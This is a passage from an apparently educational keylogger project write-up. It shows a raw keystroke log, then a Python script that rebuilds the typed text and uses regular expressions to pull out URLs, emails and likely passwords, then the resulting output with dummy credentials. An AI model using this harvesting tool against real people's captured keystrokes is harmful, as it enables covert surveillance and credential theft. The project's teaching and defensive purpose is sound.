    Fri Dec 13 16:35:39 2024 - Key.backspace
    Fri Dec 13 16:35:39 2024 - Key.backspace
    Fri Dec 13 16:35:39 2024 - Key.backspace
    Fri Dec 13 16:35:40 2024 - Key.space
    Fri Dec 13 16:35:40 2024 - k
    Fri Dec 13 16:35:40 2024 - e
    Fri Dec 13 16:35:41 2024 - y
    Fri Dec 13 16:35:41 2024 - l
    Fri Dec 13 16:35:41 2024 - o
    Fri Dec 13 16:35:42 2024 - g
    Fri Dec 13 16:35:43 2024 - g
    Fri Dec 13 16:35:43 2024 - e
    Fri Dec 13 16:35:44 2024 - Key.backspace
    Fri Dec 13 16:35:44 2024 - Key.backspace
    Fri Dec 13 16:35:44 2024 - Key.backspace
    Fri Dec 13 16:35:45 2024 - Key.backspace
    Fri Dec 13 16:35:45 2024 - Key.backspace
    Fri Dec 13 16:35:45 2024 - Key.backspace
    Fri Dec 13 16:35:45 2024 - Key.backspace
    Fri Dec 13 16:35:45 2024 - Key.backspace
    Fri Dec 13 16:35:46 2024 - a
    Fri Dec 13 16:35:46 2024 - c
    Fri Dec 13 16:35:46 2024 - c
    Fri Dec 13 16:35:46 2024 - o
    Fri Dec 13 16:35:47 2024 - u
    Fri Dec 13 16:35:47 2024 - n
    Fri Dec 13 16:35:47 2024 - t
    Fri Dec 13 16:35:48 2024 - h
    Fri Dec 13 16:35:48 2024 - e
    Fri Dec 13 16:35:48 2024 - l
    Fri Dec 13 16:35:49 2024 - p
    Fri Dec 13 16:35:49 2024 - .
    Fri Dec 13 16:35:50 2024 - e
    Fri Dec 13 16:35:50 2024 - d
    Fri Dec 13 16:35:50 2024 - u
    Fri Dec 13 16:35:53 2024 - Key.space
    Fri Dec 13 16:35:54 2024 - o
    Fri Dec 13 16:35:54 2024 - n
    Fri Dec 13 16:35:54 2024 - Key.space
    Fri Dec 13 16:35:54 2024 - w
    Fri Dec 13 16:35:54 2024 - h
    Fri Dec 13 16:35:54 2024 - a
    Fri Dec 13 16:35:55 2024 - t
    Fri Dec 13 16:35:55 2024 - Key.space
    Fri Dec 13 16:35:55 2024 - t
    Fri Dec 13 16:35:55 2024 - o
    Fri Dec 13 16:35:56 2024 - Key.space
    Fri Dec 13 16:35:56 2024 - d
    Fri Dec 13 16:35:56 2024 - o
    Fri Dec 13 16:35:56 2024 - Key.space
    Fri Dec 13 16:35:57 2024 - a
    Fri Dec 13 16:35:57 2024 - n
    Fri Dec 13 16:35:57 2024 - d
    Fri Dec 13 16:35:58 2024 - Key.space
    Fri Dec 13 16:35:58 2024 - h
    Fri Dec 13 16:35:58 2024 - o
    Fri Dec 13 16:35:58 2024 - w
    Fri Dec 13 16:35:58 2024 - Key.space
    Fri Dec 13 16:35:58 2024 - t
    Fri Dec 13 16:35:58 2024 - o
    Fri Dec 13 16:35:59 2024 - Key.space
    Fri Dec 13 16:36:00 2024 - k
    Fri Dec 13 16:36:00 2024 - e
    Fri Dec 13 16:36:00 2024 - e
    Fri Dec 13 16:36:00 2024 - p
    Fri Dec 13 16:36:00 2024 - Key.space
    Fri Dec 13 16:36:00 2024 - m
    Fri Dec 13 16:36:00 2024 - y
    Fri Dec 13 16:36:01 2024 - s
    Fri Dec 13 16:36:01 2024 - e
    Fri Dec 13 16:36:01 2024 - l
    Fri Dec 13 16:36:01 2024 - f
    Fri Dec 13 16:36:01 2024 - Key.space
    Fri Dec 13 16:36:01 2024 - s
    Fri Dec 13 16:36:02 2024 - a
    Fri Dec 13 16:36:02 2024 - d
    Fri Dec 13 16:36:03 2024 - Key.backspace
    Fri Dec 13 16:36:03 2024 - f
    Fri Dec 13 16:36:03 2024 - e
    Fri Dec 13 16:36:04 2024 - .
    Fri Dec 13 16:36:04 2024 - Key.backspace
    Fri Dec 13 16:36:05 2024 - Key.space
    Fri Dec 13 16:36:05 2024 - f
    Fri Dec 13 16:36:05 2024 - r
    Fri Dec 13 16:36:05 2024 - o
    Fri Dec 13 16:36:05 2024 - m
    Fri Dec 13 16:36:05 2024 - Key.space
    Fri Dec 13 16:36:06 2024 - a
    Fri Dec 13 16:36:06 2024 - Key.space
    Fri Dec 13 16:36:07 2024 - k
    Fri Dec 13 16:36:07 2024 - e
    Fri Dec 13 16:36:07 2024 - y
    Fri Dec 13 16:36:07 2024 - l
    Fri Dec 13 16:36:07 2024 - o
    Fri Dec 13 16:36:08 2024 - g
    Fri Dec 13 16:36:08 2024 - g
    Fri Dec 13 16:36:08 2024 - e
    Fri Dec 13 16:36:08 2024 - r
    Fri Dec 13 16:36:08 2024 - .
    Fri Dec 13 16:36:09 2024 - Key.space
    Fri Dec 13 16:36:09 2024 - Key.shift_r
    Fri Dec 13 16:36:10 2024 - O
    Fri Dec 13 16:36:10 2024 - r
    Fri Dec 13 16:36:10 2024 - Key.space
    Fri Dec 13 16:36:10 2024 - i
    Fri Dec 13 16:36:10 2024 - Key.space
    Fri Dec 13 16:36:11 2024 - c
    Fri Dec 13 16:36:11 2024 - a
    Fri Dec 13 16:36:11 2024 - n
    Fri Dec 13 16:36:11 2024 - Key.space
    Fri Dec 13 16:36:12 2024 - j
    Fri Dec 13 16:36:12 2024 - u
    Fri Dec 13 16:36:12 2024 - s
    Fri Dec 13 16:36:12 2024 - t
    Fri Dec 13 16:36:12 2024 - Key.space
    Fri Dec 13 16:36:14 2024 - h
    Fri Dec 13 16:36:14 2024 - i
    Fri Dec 13 16:36:14 2024 - t
    Fri Dec 13 16:36:14 2024 - Key.space
    Fri Dec 13 16:36:15 2024 - t
    Fri Dec 13 16:36:15 2024 - h
    Fri Dec 13 16:36:15 2024 - e
    Fri Dec 13 16:36:15 2024 - Key.space
    Fri Dec 13 16:36:15 2024 - e
    Fri Dec 13 16:36:15 2024 - s
    Fri Dec 13 16:36:16 2024 - c
    Fri Dec 13 16:36:16 2024 - Key.space
    Fri Dec 13 16:36:16 2024 - k
    Fri Dec 13 16:36:16 2024 - e
    Fri Dec 13 16:36:17 2024 - y
    Fri Dec 13 16:36:17 2024 - Key.space
    Fri Dec 13 16:36:17 2024 - t
    Fri Dec 13 16:36:17 2024 - o
    Fri Dec 13 16:36:18 2024 - Key.space
    Fri Dec 13 16:36:18 2024 - s
    Fri Dec 13 16:36:18 2024 - t
    Fri Dec 13 16:36:18 2024 - o
    Fri Dec 13 16:36:18 2024 - p
    Fri Dec 13 16:36:19 2024 - Key.space
    Fri Dec 13 16:36:19 2024 - t
    Fri Dec 13 16:36:19 2024 - h
    Fri Dec 13 16:36:19 2024 - i
    Fri Dec 13 16:36:19 2024 - s
    Fri Dec 13 16:36:19 2024 - Key.space
    Fri Dec 13 16:36:20 2024 - k
    Fri Dec 13 16:36:20 2024 - e
    Fri Dec 13 16:36:20 2024 - y
    Fri Dec 13 16:36:20 2024 - l
    Fri Dec 13 16:36:20 2024 - o
    Fri Dec 13 16:36:21 2024 - g
    Fri Dec 13 16:36:21 2024 - g
    Fri Dec 13 16:36:21 2024 - e
    Fri Dec 13 16:36:21 2024 - r
    Fri Dec 13 16:36:22 2024 - Key.esc
</details>```


---

Once the keylogging phase is complete, the log analysis script processes the data to extract meaningful insights.
First, the script reads the raw log file and removes timestamps and unnecessary formatting, leaving only the recorded keystrokes. 
It then reconstructs the keystrokes into coherent text by handling spaces, backspaces, and other formatting nuances. From the reconstructed text, 
the script identifies patterns useful for analysis, such as the most common words, URLs, emails, and potential passwords, which are detected using regular expressions
to match specific patterns. The results are then output to a new file, extracted_words.txt, which provides a detailed summary of the reconstructed text, the most frequently
used word, any identified URLs, emails, and passwords. This project highlights how keyloggers can be used to gain intelligence and emphasizes the importance of understanding
these tools from a cybersecurity perspective to recognize potential threats and defend against them.

Below is the next script in python that analyzes the raw data to extract valuable information:
```
import re
from collections import Counter

# Function to read the raw log file
def read_log_file(file_path):
    with open(file_path, "r") as file:
        return file.readlines()


# Function to remove timestamps and clean up lines
def clean_log_lines(log_lines):
    cleaned_lines = []
    
    first_line = log_lines[0].strip()  

    for line in log_lines[1:]:
        # Remove timestamp pattern 
        cleaned_line = re.sub(r".*?-", "", line).strip() 
        cleaned_lines.append(cleaned_line)
    
    return cleaned_lines, first_line


# Function to reconstruct the keystrokes into words
def reconstruct_text(cleaned_lines):
    text = ""
    for line in cleaned_lines:
        if line.startswith("Key.space"):
            text += " "
        elif line.startswith("Key.backspace"):
            text = text[:-1]
        elif line.startswith("Key.") or line == "Key.enter":  # Skip special keys
            continue
        else:
            text += line  # Add the valid keypresses (letters,numbers,punctuation)
    return text


# Function to extract words from the reconstructed text - also making sure URLs and emails stay constructed
def extract_words_and_urls(text):
    valid_domains = ['com', 'org', 'net', 'gov', 'edu', 'io', 'co', 'me', 'us']
    
    # Email pattern with regex: [words]@[words].[words]
    email_pattern = r'\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,}\b'
    emails = re.findall(email_pattern, text)
    
    # Modify the regex to match words, punctuation, and URLs
    words_and_urls = []
    words = re.findall(r"\b\w+\b|[.,!?;()/@&*^%#$~=+]", text)

    # Combine URLs as well as domains
    i = 0
    while i < len(words):
        if i + 2 < len(words) and words[i].isalpha() and words[i + 1] == "." and words[i + 2] in valid_domains:
            # This is a domain, treat it as a URL
            words_and_urls.append(words[i] + "." + words[i + 2])
            i += 3  

        elif i + 2 < len(words) and words[i].isalpha() and words[i + 1] == "@" and words[i + 2].isalpha():
            # This is an email, treat it as such
            words_and_urls.append(words[i] + "@" + words[i + 2])
            i += 3  
            
        else:
            words_and_urls.append(words[i])
            i += 1


    if i == len(words) - 1:  
        words_and_urls.append(words[i])

    return words_and_urls, emails


def get_only_words(text):
    # Extract words consisting of letters, digits, or underscores
    STOP_WORDS = {"a", "an", "and", "the", "is", "are", "of", "to", "in", "on", "for", "it", "with", "at", "by", "this"}
    words_only = re.findall(r'\b\w+\b', text)
    filtered_words = [word for word in words_only if word.lower() not in STOP_WORDS]
    return filtered_words

# Function to detect the most common word with it's count
def detect_most_common_word(words):
    
    word_counts = Counter(words)
    most_common_word, count = word_counts.most_common(1)[0]  
    return most_common_word, count


# Function to detect URLs
def detect_urls(words):
    # URL pattern without the '@' symbol, allowing for domains like example.com
    url_pattern = re.compile(r'\b(?:[a-zA-Z0-9-]+\.)+(?:com|org|net|gov|edu|io|co|me|us)\b')

    urls = []
    for word in words:
        # Exclude words containing '@' to prevent emails from being detected as URLs
        if '@' not in word and url_pattern.match(word):
            urls.append(word)
    
    return urls


# Function to detect passwords (odd letters combined with numbers and special characters)
def detect_passwords(text):
    password_pattern = r"\b[A-Za-z0-9!@#$%^&*()_+={}\[\]:;'\"<>,.?/\\|-]*\d+[A-Za-z0-9!@#$%^&*()_+={}\[\]:;'\"<>,.?/\\|-]+\b"
    passwords = [word for word in text.split() if re.match(password_pattern, word)]
    return passwords


# Function to output the extracted words to a file
def output_to_file(words, first_line, output_file, most_common_word, count, urls, passwords, emails):
    with open(output_file, "w") as file:
        # Write the first line (timestamp)
        file.write(first_line + "\n\n")
        
        # Write the reconstructed words at the top
        file.write(" ".join(words) + "\n")
        file.write("---------------------------------------------------------------\n\n")
        
        # Most common word
        file.write(f"Most common word: '{most_common_word}' (appears {count} times)\n")
        file.write("---------------------------------------------------------------\n\n")        
        # URLs section
        if urls:
            file.write(f"URLs Found: {urls}\n")
        else:
            file.write("No URLs Found.\n")
        file.write("---------------------------------------------------------------\n\n")        
        # Passwords section
        if passwords:
            file.write(f"Potential Passwords found: {passwords}\n")
        else:
            file.write("No Passwords detected.\n")
        file.write("---------------------------------------------------------------\n\n")        
        # Emails section
        if emails:
            file.write(f"Emails Found: {emails}\n")
        else:
            file.write("No Emails Found.\n")
        file.write("---------------------------------------------------------------\n\n")




def main():
    input_file = "raw_log.txt"  
    output_file = "extracted_words.txt"  

    log_lines = read_log_file(input_file)
    
    cleaned_lines, first_line = clean_log_lines(log_lines)

    reconstructed_text = reconstruct_text(cleaned_lines)

    passwords = detect_passwords(reconstructed_text)

    all_words,emails = extract_words_and_urls(reconstructed_text)

    cleaned_words = get_only_words(reconstructed_text)

    most_common_word, count = detect_most_common_word(cleaned_words)

    urls = detect_urls(all_words)

    output_to_file(all_words, first_line, output_file, most_common_word, count, urls, passwords, emails)
    print(f"Words have been output to {output_file}")

if __name__ == "__main__":
    main()
```

---

Here is then the final output of the extracted information from the previous script:

```
Keylogger started at: Fri Dec 13 16:32:25 2024

This is a keylogger test , this is all being logged from a keylogger . This keylogger will pick up every key stroke . That is scary ! Then it will be analyzed . Hopefully I don t go to a website like TryHackMe.com and type in my credentials . Which being keylogged@example . com and my password being P @ $ $ W0rd ! 99 for the website . That keylogger will log that in and might find a tutorial for a tryhackme room on youtube.com with my account ! Might have to email tryhackme@support . com or go to accounthelp.edu on what to do and how to keep myself safe from a keylogger . Or i can just hit the esc key to stop this keylogger
---------------------------------------------------------------

Most common word: 'keylogger' (appears 6 times)
---------------------------------------------------------------

URLs Found: ['TryHackMe.com', 'youtube.com', 'accounthelp.edu']
---------------------------------------------------------------

Potential Passwords found: ['P@$$W0rd!99']
---------------------------------------------------------------

Emails Found: ['keylogged@example.com', 'tryhackme@support.com']
---------------------------------------------------------------
```
